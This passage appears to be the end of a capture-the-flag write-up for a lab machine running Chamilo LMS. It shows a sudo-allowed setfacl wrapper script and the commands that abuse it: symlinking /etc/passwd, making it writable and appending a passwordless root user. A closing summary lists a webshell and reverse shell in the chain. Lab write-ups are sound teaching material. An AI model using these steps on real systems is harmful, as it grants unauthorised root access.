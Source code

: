 The `/opt/acl.sh` mentioned looks like that:
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
It uses the `setfacl` command, which sets Access Control Lists(ACLs) for files and directories. I used [GTFOBins](https://gtfobins.github.io/gtfobins/setfacl/) and found out, that there exists a privilege escalation method using a [writable `/etc/passwd`](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) file.

I could create a symbolic link of the `/etc/passwd` file to our home directory:
```shell
$ ln -s /etc/passwd /home/mtz/passwd_change
```

Then I used the `/opt/acl.sh` script to give our user `mtz` read and write permissions to the created symbolic link file `/home/mtz/passwd_change`:
```shell
$ sudo /opt/acl.sh mtz rw /home/mtz/passwd_change 
```

The last step was to append the user `hacker` with root permissions to the writable `passwd_change` file, which is just a symbolic link to the `/etc/passwd` file:
```shell
$ echo "hacker::0:0:hacker:/root:/bin/bash" >> ./passwd_change 
```

After that, I logged in as our created user `hacker` and had root access:
```shell
$ su hacker
``` 

It worked and I got the root flag.

---
## Exploit Chain
**Recon:**
1. Port scan with `nmap`
2. Find the `lms` subdomain with `ffuf`
3. Find the `README.md` file and get the version of the Chamilo LMS service
4. Research for Chamilo `1.11.x` vulnerabilities
5. Exploit the Chamilo LMS exploit, which creates a webshell
6. Use the webshell to start a reverse shell

